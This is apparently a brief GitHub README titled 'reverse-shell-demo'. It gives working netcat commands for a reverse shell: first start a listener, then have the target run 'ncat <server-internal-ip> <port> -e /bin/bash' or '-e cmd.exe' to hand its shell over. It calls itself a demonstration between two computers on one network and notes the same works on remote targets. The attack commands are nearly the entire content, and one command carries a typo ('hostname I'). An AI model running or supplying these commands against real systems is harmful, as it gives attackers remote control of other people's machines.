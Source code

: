 # reverse-shell-demo

## Reverse Shell demo between 2 computers on the same network. (Can be done on a remote target but local targets are faster for a demo, result is identical)

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
`ncat -lvnp <port>`


### 3) Connect attack target to server:
For Linux/Bash:
`ncat <server-internal-ip> <port> -e /bin/bash`

For Windows:
`ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
